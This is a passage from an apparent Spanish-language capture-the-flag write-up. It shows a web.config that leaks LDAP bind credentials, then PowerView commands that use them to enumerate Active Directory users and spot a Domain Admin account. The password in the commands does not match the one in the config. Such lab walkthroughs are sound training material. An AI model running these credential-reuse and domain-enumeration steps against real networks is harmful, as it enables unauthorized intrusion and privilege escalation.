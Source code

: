 ```xml
                <add name="ADProvider" type="System.Web.Security.ActiveDirectoryMembershipProvider, System.Web, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" connectionStringName="ADConnString" connectionUsername="FULCRUM\LDAP" connectionPassword="PasswordForSearching123!" attributeMapUsername="SAMAccountName" />
            </providers>
        </membership>
    </system.web>
<system.webServer>
   <httpProtocol>
      <customHeaders>
           <clear />
      </customHeaders>
   </httpProtocol>
        <defaultDocument>
            <files>
                <clear />
                <add value="Default.asp" />
                <add value="Default.htm" />
                <add value="index.htm" />
                <add value="index.html" />
                <add value="iisstart.htm" />
            </files>
        </defaultDocument>
</system.webServer>
</configuration>
```

Con estas credeciales podemos enumerar usuarios pertenecientes al **domain controller**, todo esto a través de [**PowerView.ps1** ](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1). Lo vamos a descargar y posteriormente subirlo a la maquina windows para despues ejecutar estos comandos:
```powershell
PS> Import-Module .\PowerView.ps1
PS> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS> $Cred = New-Object System.Management.Automation.PSCredential('FULCRUM\LDAP', $SecPassword)
PS> Get-DomainUser -Credential $Cred
```

Obtenemos una lista potencial de usuarios. Ahora podriamos filtrar por nombre de usuarios y las veces que han iniciado sesión para ir descartando posibles **rabit holes**:
```powershell
PS> Get-DomainUser -Credential $Cred | select samaccountname, logoncount
```

Si listamos de manera individual las propiedades de estos usuarios, llegamos a dar con uno que es **Domain Admin**:
```powershell
PS> Get-DomainUser -Credential $Cred 923a

company               : fulcrum
logoncount            : 0
badpasswordtime       : 12/31/1600 4:00:00 PM
st                    : UN
l                     : unknown
distinguishedname     : CN=923a,CN=Users,DC=fulcrum,DC=local
objectclass           : {top, person, organizationalPerson, user}
name                  : 923a
objectsid             : S-1-5-21-1158016984-652700382-3033952538-1104
samaccountname        : 923a
admincount            : 1
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 5/8/2022 7:10:32 AM
```